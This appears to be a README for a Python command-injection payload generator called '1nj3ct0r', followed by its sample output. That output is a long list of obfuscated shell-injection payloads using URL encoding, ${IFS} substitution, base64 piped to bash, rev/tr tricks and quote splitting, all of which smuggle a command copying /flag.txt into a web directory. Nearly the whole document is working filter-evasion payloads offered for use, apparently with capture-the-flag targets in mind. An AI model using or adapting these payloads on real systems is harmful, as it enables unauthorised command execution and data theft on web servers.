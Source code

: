 # 1nj3ct0r
This is a Command Injection payload generator made with Python 3

Example:
python3 cmd_injection_gen.py "cat /flag.txt >> /var/www/html/filefolder/somefile.txt"

[!] Generating payloads for [cat /flag.txt >> /var/www/html/filefolder/somefile.txt]
[+] Saving payloads payloads.
%3b$(a="CaT${IFS}${PATH:0:1}FlAg.tXt${IFS}>>${IFS}${PATH:0:1}vAr${PATH:0:1}wWw${PATH:0:1}hTmL${PATH:0:1}FiLeFoLdEr${PATH:0:1}sOmEfIlE.TxT"${LS_COLORS:10:1}printf${IFS}%s${IFS}"${a,,}")
%0a$(rev<<<'t\x\t\.\e\l\i\f\e\m\o\s\/\r\e\d\l\o\f\e\l\i\f\/\l\m\t\h\/\w\w\w\/\r\a\v\/\  \>\>\   \t\x\t\.\g\a\l\f\/\     \t\a\c')
%26%26bash%3C%3C%3C%24%28base64%09-d%3C%3C%3CY1xhXHRcIFwvXGZcbFxhXGdcLlx0XHhcdFwgXD5cPlwgXC9cdlxhXHJcL1x3XHdcd1wvXGhcdFxtXGxcL1xmXGlcbFxlXGZcb1xsXGRcZVxyXC9cc1xvXG1cZVxmXGlcbFxlXC5cdFx4XHQ%3D%29
$(cat${IFS}/flag.txt${IFS}>>${IFS}/var/www/html/filefolder/somefile.txt)
%7cc%24%40a%24%40t%24%40%09%24%40%2F%24%40f%24%40l%24%40a%24%40g%24%40.%24%40t%24%40x%24%40t%24%40%09%24%40%3E%24%40%3E%24%40%09%24%40%2F%24%40v%24%40a%24%40r%24%40%2F%24%40w%24%40w%24%40w%24%40%2F%24%40h%24%40t%24%40m%24%40l%24%40%2F%24%40f%24%40i%24%40l%24%40e%24%40f%24%40o%24%40l%24%40d%24%40e%24%40r%24%40%2F%24%40s%24%40o%24%40m%24%40e%24%40f%24%40i%24%40l%24%40e%24%40.%24%40t%24%40x%24%40t
%0a%24%28rev%3C%3C%3C%27t%40%24x%40%24t%40%24.%40%24e%40%24l%40%24i%40%24f%40%24e%40%24m%40%24o%40%24s%40%24/%40%24r%40%24e%40%24d%40%24l%40%24o%40%24f%40%24e%40%24l%40%24i%40%24f%40%24/%40%24l%40%24m%40%24t%40%24h%40%24/%40%24w%40%24w%40%24w%40%24/%40%24r%40%24a%40%24v%40%24/%40%24%20%40%24%3E%40%24%3E%40%24%20%40%24t%40%24x%40%24t%40%24.%40%24g%40%24a%40%24l%40%24f%40%24/%40%24%20%40%24t%40%24a%40%24c%27%29
%3bbash<<<$(base64${IFS}-d<<<Y2F0IC9mbGFnLnR4dCA+PiAvdmFyL3d3dy9odG1sL2ZpbGVmb2xkZXIvc29tZWZpbGUudHh0)
%26c'a't${IFS}${PATH:0:1}f'l'ag.t'x't${IFS}>>${IFS}${PATH:0:1}v'a'r${PATH:0:1}'w''w''w'${PATH:0:1}h't'ml${PATH:0:1}f'i'lefolder${PATH:0:1}s'o'mefile.t'x't
%26bash%3C%3C%3C%24%28base64+-d%3C%3C%3CY2F0IC9mbGFnLnR4dCA%2BPiAvdmFyL3d3dy9odG1sL2ZpbGVmb2xkZXIvc29tZWZpbGUudHh0%29
%0a%7Bcat%2C%2Fflag.txt%2C%3E%3E%2C%2Fvar%2Fwww%2Fhtml%2Ffilefolder%2Fsomefile.txt%7D
%24%28c%24%40a%24%40t%24%40%20%24%40/%24%40f%24%40l%24%40a%24%40g%24%40.%24%40t%24%40x%24%40t%24%40%20%24%40%3E%24%40%3E%24%40%20%24%40/%24%40v%24%40a%24%40r%24%40/%24%40w%24%40w%24%40w%24%40/%24%40h%24%40t%24%40m%24%40l%24%40/%24%40f%24%40i%24%40l%24%40e%24%40f%24%40o%24%40l%24%40d%24%40e%24%40r%24%40/%24%40s%24%40o%24%40m%24%40e%24%40f%24%40i%24%40l%24%40e%24%40.%24%40t%24%40x%24%40t%29
%0a$(cat        /flag.txt       >>      /var/www/html/filefolder/somefile.txt)
%24%28c%5Ca%5Ct%5C%20%5C/%5Cf%5Cl%5Ca%5Cg%5C.%5Ct%5Cx%5Ct%5C%20%5C%3E%5C%3E%5C%20%5C/%5Cv%5Ca%5Cr%5C/%5Cw%5Cw%5Cw%5C/%5Ch%5Ct%5Cm%5Cl%5C/%5Cf%5Ci%5Cl%5Ce%5Cf%5Co%5Cl%5Cd%5Ce%5Cr%5C/%5Cs%5Co%5Cm%5Ce%5Cf%5Ci%5Cl%5Ce%5C.%5Ct%5Cx%5Ct%29
%7cc%5Ca%5Ct%5C%09%5C/%5Cf%5Cl%5Ca%5Cg%5C.%5Ct%5Cx%5Ct%5C%09%5C%3E%5C%3E%5C%09%5C/%5Cv%5Ca%5Cr%5C/%5Cw%5Cw%5Cw%5C/%5Ch%5Ct%5Cm%5Cl%5C/%5Cf%5Ci%5Cl%5Ce%5Cf%5Co%5Cl%5Cd%5Ce%5Cr%5C/%5Cs%5Co%5Cm%5Ce%5Cf%5Ci%5Cl%5Ce%5C.%5Ct%5Cx%5Ct
-azertyuiopmlkjhgfdsqwxcbn0123456789%7c%7cbash<<<$(base64 -d<<<YyRAYSRAdCRAICRALyRAZiRAbCRAYSRAZyRALiRAdCRAeCRAdCRAICRAPiRAPiRAICRALyRAdiRAYSRAciRALyRAdyRAdyRAdyRALyRAaCRAdCRAbSRAbCRALyRAZiRAaSRAbCRAZSRAZiRAbyRAbCRAZCRAZSRAciRALyRAcyRAbyRAbSRAZSRAZiRAaSRAbCRAZSRALiRAdCRAeCRAdA==)
-azertyuiopmlkjhgfdsqwxcbn0123456789%7c%7c$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"CaT${IFS}${PATH:0:1}FlAg.tXt${IFS}>>${IFS}${PATH:0:1}vAr${PATH:0:1}wWw${PATH:0:1}hTmL${PATH:0:1}FiLeFoLdEr${PATH:0:1}sOmEfIlE.TxT")
%26%26$(a="CaT${IFS}/fLaG.TxT${IFS}>>${IFS}/VaR/WwW/HtMl/fIlEfOlDeR/SoMeFiLe.tXt";printf${IFS}%s${IFS}"${a,,}")
%0a%24%28tr%24%7BIFS%7D%22%5BA-Z%5D%22%24%7BIFS%7D%22%5Ba-z%5D%22%3C%3C%3C%22CaT%24%7BIFS%7D/FlAg.tXt%24%7BIFS%7D%3E%3E%24%7BIFS%7D/vAr/wWw/hTmL/FiLeFoLdEr/sOmEfIlE.TxT%22%29
%3b$(rev<<<'t@$x@$t@$.@$e@$l@$i@$f@$e@$m@$o@$s@$${PATH:0:1}@$r@$e@$d@$l@$o@$f@$e@$l@$i@$f@$${PATH:0:1}@$l@$m@$t@$h@$${PATH:0:1}@$w@$w@$w@$${PATH:0:1}@$r@$a@$v@$${PATH:0:1}@$ @$>@$>@$ @$t@$x@$t@$.@$g@$a@$l@$f@$${PATH:0:1}@$ @$t@$a@$c')
%0ac$@a$@t$@    $@/$@f$@l$@a$@g$@.$@t$@x$@t$@   $@>$@>$@        $@/$@v$@a$@r$@/$@w$@w$@w$@/$@h$@t$@m$@l$@/$@f$@i$@l$@e$@f$@o$@l$@d$@e$@r$@/$@s$@o$@m$@e$@f$@i$@l$@e$@.$@t$@x$@t
%7cbash<<<$(base64${IFS}-d<<<Y1xhXHRcIFwvXGZcbFxhXGdcLlx0XHhcdFwgXD5cPlwgXC9cdlxhXHJcL1x3XHdcd1wvXGhcdFxtXGxcL1xmXGlcbFxlXGZcb1xsXGRcZVxyXC9cc1xvXG1cZVxmXGlcbFxlXC5cdFx4XHQ=)
%26%26c%22a%22t+%2Ff%22l%22ag.t%22x%22t+%3E%3E+%2Fv%22a%22r%2F%22w%22%22w%22%22w%22%2Fh%22t%22ml%2Ff%22i%22lefolder%2Fs%22o%22mefile.t%22x%22t
%26%26%24%28rev%3C%3C%3C%27t%40%24x%40%24t%40%24.%40%24e%40%24l%40%24i%40%24f%40%24e%40%24m%40%24o%40%24s%40%24/%40%24r%40%24e%40%24d%40%24l%40%24o%40%24f%40%24e%40%24l%40%24i%40%24f%40%24/%40%24l%40%24m%40%24t%40%24h%40%24/%40%24w%40%24w%40%24w%40%24/%40%24r%40%24a%40%24v%40%24/%40%24%20%40%24%3E%40%24%3E%40%24%20%40%24t%40%24x%40%24t%40%24.%40%24g%40%24a%40%24l%40%24f%40%24/%40%24%20%40%24t%40%24a%40%24c%27%29
